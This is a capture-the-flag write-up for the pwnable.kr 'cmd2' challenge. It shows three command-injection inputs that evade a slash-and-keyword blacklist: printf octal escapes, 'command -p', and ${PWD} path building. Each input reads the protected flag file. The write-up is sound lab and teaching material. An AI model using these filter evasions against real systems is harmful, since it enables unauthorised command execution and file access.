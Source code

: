 # 15 - cmd2

## The Challenge

Daddy bought me a system command shell. but he put some filters to prevent me from playing with it without his permission... but I wanna play anytime I want!

ssh cmd2@pwnable.kr -p2222 \(pw:flag of cmd1\)

## The Solution

Another blacklisting challenge, this time on steroids. The greatest hurdle is the prohibition on using forward slash.

![](../.gitbook/assets/image%20%2844%29.png)

### Solution \#1 - Octal Encoding

`dash` supports octal encoding \[not hex\]. It's important to surround the argument with single quotes so `printf` wont execute before being passed as an argument.

```text
./cmd2 '$(printf "\57bin\57cat fla*")'
```

### Solution \#2 - Builtin Secrets

Bash has a builtin named `command`. It can be used with the flag `-p` to revert to default function lookup.

```text
./cmd2 'command -p cat fla*'
```

### Solution \#3 - ${PWD}

If you navigate to the root directory $PWD will equal to, well, forward slash.

```text
./cmd2 'cd ..;cd ..; ${PWD}bin${PWD}cat ${PWD}home${PWD}cmd2${PWD}fla*'
```

